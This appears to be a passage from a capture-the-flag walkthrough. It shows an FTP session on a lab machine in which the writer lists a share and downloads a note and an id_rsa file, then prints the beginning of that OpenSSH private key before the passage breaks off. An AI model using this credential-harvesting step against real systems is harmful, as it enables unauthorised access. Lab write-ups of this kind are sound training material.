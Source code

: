 > Yes! We got access.
{: .prompt-info }

Lets have a look what is available.
```bash
ftp> ls
229 Entering Extended Passive Mode (|||55767|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||60680|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||9834|)
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
100% |***********************************************************************************************************************************************************************************************|  2602      316.79 KiB/s    00:00 ETA
226 Transfer complete.
2602 bytes received in 00:00 (66.76 KiB/s)
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||19458|)
150 Opening BINARY mode data connection for note.txt (75 bytes).
100% |***********************************************************************************************************************************************************************************************|    75       91.78 KiB/s    00:00 ETA
226 Transfer complete.
75 bytes received in 00:00 (1.96 KiB/s)
ftp> exit
221 Goodbye.
```

```bash
$ cat note.txt 

Wow you are here 

ariana won't happy about this note 

sorry ariana :(

$ cat id_rsa                              
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAthncqHSPVcE7xs136G/G7duiV6wULU+1Y906aF3ltGpht/sXByPB
aEzxOfqRXlQfkk7hpSYk8FCAibxddTGkd5YpcSH7U145sc2n7jwv0swjMu1ml+B5Vra7JJ
0cP/I27BcjMy7BxRpugZQJP214jiEixOK6gxTILZRAfHedblnd2rW6PhRcQK++jcEFM+ur
gaaktNdFyK4deT+YHghsYAUi/zyWcvqSOGy9iwO62w4TvMfYRaIL7hzhtvR6Ze6aBypqhV
m1C6YIIddYcJuXCV/DgiWXTIUQnhl38/Hxp0lzkhcN8muzOAmFMehktm3bX+y01jX+LziU
GDYM7cTQitZ0MhPDMwIoR0L89mjP4lVyX4A0kn/MxQaj4IxQnY7QG4D4C1bMIYJ0IA//k9
d4h0SNcEOlgDCZ0yCLZQeN3LSBe2IR4qFmdavyXJfb0Nzn5jhfVUchz9N9S8prP6+y3exZ
ADnomqLN1eMcsmu8z5v7w0q7Iv3vS2XMc/c7deZDAAAFiH5GUFF+RlBRAAAAB3NzaC1yc2
EAAAGBALYZ3Kh0j1XBO8bNd+hvxu3bolesFC1PtWPdOmhd5bRqYbf7FwcjwWhM8Tn6kV5U
H5JO4aUmJPBQgIm8XXUxpHeWKXEh+1NeObHNp+48L9LMIzLtZpfgeVa2uySdHD/yNuwXIz
MuwcUaboGUCT9teI4hIsTiuoMUyC2UQHx3nW5Z3dq1uj4UXECvvo3BBTPrq4GmpLTXRciu
HXk/mB4IbGAFIv88lnL6kjhsvYsDutsOE7zH2EWiC+4c4bb0emXumgcqaoVZtQumCCHXWH
Cblwlfw4Ill0yFEJ4Zd/Px8adJc5IXDfJrszgJhTHoZLZt21/stNY1/i84lBg2DO3E0IrW
```